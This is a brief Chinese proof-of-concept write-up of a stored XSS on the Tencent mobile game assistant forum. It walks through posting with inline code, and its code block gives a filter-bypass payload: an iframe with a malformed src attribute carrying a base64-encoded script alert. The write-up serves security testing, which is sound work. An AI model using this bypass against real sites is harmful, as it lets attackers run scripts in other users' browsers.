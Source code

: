 ### 腾讯手游助手论坛 XSS

登录之后我们点发帖

![](https://pic1.imgdb.cn/item/68ae26c858cb8da5c85328c8.png)

然后点击行内代码

![](https://pic1.imgdb.cn/item/68ae26e058cb8da5c85328cc.png)

绕过代码

```html
<iframe src/="data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4="></iframe>
```

![](https://pic1.imgdb.cn/item/68ae271958cb8da5c85328d7.png)